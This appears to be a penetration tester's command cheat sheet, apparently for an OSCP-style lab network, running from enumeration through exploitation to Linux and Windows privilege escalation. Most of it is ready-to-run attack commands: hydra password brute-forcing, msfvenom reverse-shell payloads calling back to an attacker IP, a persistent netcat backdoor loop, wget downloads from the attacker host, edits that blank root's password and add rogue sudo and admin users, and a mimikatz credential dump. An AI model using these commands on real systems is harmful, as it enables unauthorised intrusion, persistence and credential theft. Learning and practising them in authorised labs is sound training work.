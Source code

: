 Notes
Enumeration
Scan IPs to a CSV file:

cd /mnt/hgfs/Shared/Exam
mkdir hosts
ruby scan.rb tcp 10.11.1.220 10.11.1.221 10.11.1.44 10.11.1.218 10.11.1.219
ruby scan.rb udp 10.11.1.220 10.11.1.221 10.11.1.44 10.11.1.218 10.11.1.219
ruby scan_to_csv.rb > hosts.csv
Do a ping sweep:

nmap -sn 10.11.1.0/24 -oG ips.txt
cat ips.txt | awk '{print $2}' | grep -v Nmap > ips.txt
Find hidden ports: nmap -v -sS -p- -T4 10.11.1.49

Increase nmap speed T2/--disable-arp-ping

Enum4linux from smb ports: enum4linux -a 10.11.1.5

Wireshark

Capture all traffic from an IP src net 192.168.0.1
Specify port tcp dst port 123
Smb (139 & 445)

$ enum4linux -a 10.11.1.5
$ smbclient -L //10.11.1.5 -U ''
$ smbclient //10.11.1.5/Share -U ''
Can you do dir traversal?
OS Discovery? nmap -p 139,445 --script smb-os-discovery 10.11.1.136
Scan for vulns: nmap -p 139,445 -Pn --script=smb-vuln-*.nse 10.11.1.5
HTTP (80 & 443)

$ gobuster -u http://192.168.26.53 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -e > scans/gobuster_dirs
# => /internal/
$ gobuster -u http://192.168.26.53 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -e > scans/gobuster_files
$ nikto -h 10.11.1.8 > scans/nikto
Checklist:

/cgi-bin check for shellshock?
is webdav enabled? (cadaver)
check source code for hidden paths
cookies?
Check for web app source code and version on github
https://gist.github.com/unfo/5ddc85671dcf39f877aaf5dce105fac3

SNMP (UDP 161)

onesixtyone
snmp-check
Exploitation
Brute force logins:

SSH:

hydra -f -l bob -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.11.1.136 -t 4 ssh
FTP:

cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt usernames.txt
hydra -L usernames.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-30.txt -V 10.11.1.146 ftp
HTTP POST:

hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.11.1.251 -V http-form-post '/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:Incorrect'
HTTP Basic Auth:

hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-20.txt 10.11.1.202 -V http-get /localstart.asp
Msfvenom:

# Windows meterpreter:
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe EXITFUNC=thread LHOST=192.168.43.31 LPORT=445 > meterpreter.exe
# Windows reverse TCP:
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.31 LPORT=443 -e x86/shikata_ga_nai -f exe > reverse_shell_443.exe
# Linux reverse TCP:
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.43.31 LPORT=443 -f elf -o reverse_shell
# Java reverse TCP:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.43.31 LPORT=443 -f war > payload.war
# PHP Reverse TCP:
msfvenom -p php/reverse_php LHOST=192.168.43.31 LPORT=4443 -f raw > shell.php
# Python Reverse TCP:
msfvenom -p python/shell_reverse_tcp LHOST=192.168.43.31 LPORT=443 -f raw > shell.py
Download a file via ftp:

echo open 192.168.43.31 21> ftp.txt && echo USER test pass>> ftp.txt && echo ftp>> ftp.txt && echo bin >> ftp.txt && echo GET churrasco.exe >> ftp.txt && echo bye >> ftp.txt && ftp -v -n -s:ftp.txt
Persistent reverse shell in linux:

cd /var/tmp
echo 'while [ 1 ]; do sleep 3; nc -n 192.168.43.31 445 -e /bin/bash &>/dev/null; done' > backdoor.sh
chmod +x backdoor.sh
nohup ./backdoor.sh &
Hashcat tip: sudo apt install ocl-icd-libopencl1

Crack a password from /etc/passwd:

$ cd ~/Downloads/hashcat-4.1.0
$ echo "$P$B9wJdX0NkO95U2L.kqAGXsFufwSp5N1" > hashes.txt
$ ./hashcat64.bin -m 400 hashes.txt rockyou.txt
Crack a password from fgdump: https://hashcat.net/wiki/doku.php?id=example_hashes

$ cd ~/Downloads/hashcat-4.1.0
$ echo "F26276DDAAB15F96872B4FAD17E5759B" > hashes.txt
$ ./hashcat64.bin -m 1000 hashes.txt rockyou.txt
Sniff packets:

tcpdump -n src host 172.16.40.10
tcpdump -n dst host 172.16.40.10
Privilege Escalation (Linux)
TTY Shell:

python -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
Download priv esc scripts:

wget http://192.168.43.31/linuxprivchecker.py
wget http://192.168.43.31/linenum.sh
wget http://192.168.43.31/unix-privesc-check
Change root to passwordless:

echo "echo root::0:0:root:/root:/bin/bash > /etc/passwd" > /tmp/run
Add a root user :

adduser hacker
usermod -aG sudo hacker
echo "%hacker        ALL=(ALL)       ALL" >> /etc/sudoers
sudo su
Port forward ssh:

service ssh start
ssh -R 631:localhost:631 root@192.168.43.31
local: -L Specifies that the given port on the local (client) host is to be forwarded to the given host and port on the remote side.
ssh -L sourcePort:forwardToHost:onPort connectToHost connect with ssh to connectToHost, and forward all connection attempts to the local sourcePort to port onPort on the machine called forwardToHost, which can be reached from the connectToHost machine.
remote: -R Specifies that the given port on the remote (server) host is to be forwarded to the given host and port on the local side.
ssh -R sourcePort:forwardToHost:onPort connectToHost connect with ssh to connectToHost, and forward all connection attempts to the remote sourcePort to port onPort on the machine called forwardToHost, which can be reached from your local machine.
Example:

ssh -L \*:10443:localhost:10443 root@192.168.43.31
Privilege Escalation (Windows)
Follow these guides: https://github.com/absolomb/Pentesting/blob/master/guides/WindowsPrivEsc.md https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/ http://www.fuzzysecurity.com/tutorials/16.html

Search for files containing string:

findstr /si password
Search for files by name:

dir wmi* /s /p
Show hidden files and folders:

dir /adh
Download files via ftp:

echo open 192.168.43.31 21> ftp.txt && echo USER test pass>> ftp.txt && echo ftp>> ftp.txt && echo bin >> ftp.txt && echo GET fgdump.exe >> ftp.txt && echo bye >> ftp.txt && ftp -v -n -s:ftp.txt
Port forward 445 (victim) to 4443 (attacker):

$ service ssh start
> plink.exe -l offsec -pw pass -R 4443:127.0.0.1:445 192.168.43.31
Determine windows version: https://www.forensicswiki.org/wiki/Determining_OS_version_from_an_evidence_image https://stackoverflow.com/questions/14648796/

type %windir%\system32\eula.txt

Use jaws script: https://github.com/411Hall/JAWS

Add an admin user:

net user hacker password /add
net localgroup administrators brett /add
Download mimikatz:

gftp mimikatz/Win32/mimikatz.exe
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
